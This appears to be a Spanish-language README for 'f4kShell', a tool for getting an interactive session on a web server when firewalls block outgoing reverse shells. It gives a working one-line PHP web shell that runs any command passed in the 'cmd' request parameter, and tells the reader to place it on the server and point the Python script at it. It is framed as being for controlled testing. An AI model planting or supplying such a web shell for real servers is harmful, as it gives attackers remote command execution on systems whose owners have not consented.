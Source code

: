 # f4kShell

* En entornos reales suelen existir reglas de red y restricciones (p. ej. reglas de firewall o filtros que bloquean conexiones salientes) que impiden establecer shells reversas tradicionales. Por eso, en pruebas controladas es interesante estudiar técnicas alternativas para recuperar una sesión interactiva y entender los riesgos asociados a la ejecución remota de comandos desde un servidor web.

* Basta con colocar en el servidor un archivo PHP similar al mostrado abajo, cuyo propósito es ejecutar comandos en el entorno remoto.

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```
* Con el archivo ya en el servidor, basta ejecutar el script (no olvides modificar la ruta del "cmd.php" dentro del script 
"f4kshell.py"para que apunte al fichero PHP y ruta correcta). Abajo se muestra un ejemplo de lo que permite realizar.

![imagen](https://ibb.co/vCPtnS7q)
